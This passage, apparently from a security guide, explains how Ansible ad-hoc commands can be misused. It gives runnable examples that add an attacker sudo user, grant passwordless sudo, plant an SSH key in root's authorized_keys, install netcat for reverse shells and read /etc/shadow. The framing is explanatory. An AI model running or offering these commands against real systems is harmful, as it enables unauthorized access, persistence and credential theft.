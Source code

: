 ### 2. **Running Arbitrary Shell Commands**
   - The `shell` and `command` modules allow running arbitrary commands on remote systems, which can be used to execute malicious code or alter system configurations.
   - Example:
     ```bash
     ansible all -m shell -a "useradd attacker -G sudo"
     ```
   - This command adds a new user named `attacker` to the `sudo` group, granting it administrative privileges.

### 3. **Modifying Critical System Files**
   - Ad-hoc commands can be used to modify critical system files, like `/etc/passwd` or `/etc/sudoers`, leading to privilege escalation.
   - Example:
     ```bash
     ansible all -m lineinfile -a "path=/etc/sudoers line='attacker ALL=(ALL) NOPASSWD: ALL'" --become
     ```
   - This command adds a line to the `sudoers` file, allowing the `attacker` user to execute any command without a password.

### 4. **Copying SSH Keys for Unauthorized Access**
   - Ad-hoc commands can be used to copy SSH keys to remote systems, enabling unauthorized access and lateral movement.
   - Example:
     ```bash
     ansible all -m copy -a "src=/home/attacker/.ssh/id_rsa.pub dest=/root/.ssh/authorized_keys" --become
     ```
   - This command copies the attacker's SSH public key to the root user's `authorized_keys` file on all hosts.

### 5. **Installing Malicious Software**
   - An attacker could use ad-hoc commands to install malicious software or tools that could be used for further attacks or persistence.
   - Example:
     ```bash
     ansible all -m apt -a "name=netcat state=present" --become
     ```
   - This command installs `netcat`, which can be used for various malicious purposes like setting up reverse shells.

### 6. **Exfiltrating Sensitive Data**
   - An ad-hoc command can be used to gather and exfiltrate sensitive data from remote systems.
   - Example:
     ```bash
     ansible all -m shell -a "cat /etc/shadow" --become
     ```
   - This command reads the contents of the `/etc/shadow` file, which contains password hashes, and could be exfiltrated by redirecting the output to a remote server.

